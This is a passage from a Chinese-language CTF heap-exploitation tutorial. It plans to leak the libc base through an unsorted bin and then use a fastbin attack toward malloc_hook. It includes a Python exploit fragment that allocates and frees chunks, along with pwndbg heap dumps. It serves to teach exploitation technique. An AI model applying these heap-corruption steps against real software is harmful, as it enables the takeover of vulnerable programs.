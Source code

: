 dump 就是輸出對應索引 chunk 的內容。

### 利用思路

可以確定的是，我們主要有的漏洞就是任意長度堆溢出。由於該程序幾乎所有保護都開啓了，所以我們必須要有一些泄漏纔可以控制程序的流程。基本利用思路如下

- 利用 unsorted bin 地址泄漏 libc 基地址。
- 利用 fastbin attack 將chunk 分配到 malloc_hook 附近。

#### 泄漏 libc 基地址

由於我們是希望使用 unsorted bin 來泄漏 libc 基地址，所以必須要有 chunk 可以被鏈接到 unsorted bin 中，所以該 chunk 不能使 fastbin chunk，也不能和 top chunk 相鄰。因爲前者會被添加到 fastbin 中，後者在不是fastbin 的情況下，會被合併到 top chunk 中。因此，我們這裏構造一個 small bin chunk。在將該 chunk 釋放到 unsorted bin 的同時，也需要讓另外一個正在使用的 chunk 可以同時指向該 chunk 的位置。這樣纔可以進行泄漏。具體設計如下

```Python
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
```

首先，我們申請了 5 個chunk，並釋放了兩個chunk，此時堆的情況如下。

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021 idx 0
0x55a03ca22010:	0x0000000000000000	0x0000000000000000
0x55a03ca22020:	0x0000000000000000	0x0000000000000021 idx 1
0x55a03ca22030:	0x000055a03ca22040	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021 idx 2
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021 idx 3
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091 idx 4
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

```

當我們編輯 idx0 後，確實已經將其指向idx4了。這裏之所以可以成功是因爲堆的始終是 4KB 對齊的，所以idx 4的起始地址的第一個字節必然是0x80。
